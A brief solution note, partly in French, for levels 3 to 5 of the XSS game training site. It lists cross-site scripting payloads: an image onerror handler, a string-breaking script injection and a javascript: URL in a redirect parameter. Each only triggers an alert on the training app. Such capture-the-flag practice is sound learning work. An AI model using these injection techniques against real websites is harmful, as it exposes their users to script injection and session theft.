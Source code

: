 Ex 3 : https://xss-game.appspot.com/level3/frame#<img src='invalid' onerror='alert("XSS")'>
Ex 4 : '); alert('XSS
Ex 5 : javascript:alert('XSS') dans l'input + url = https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('XSS')
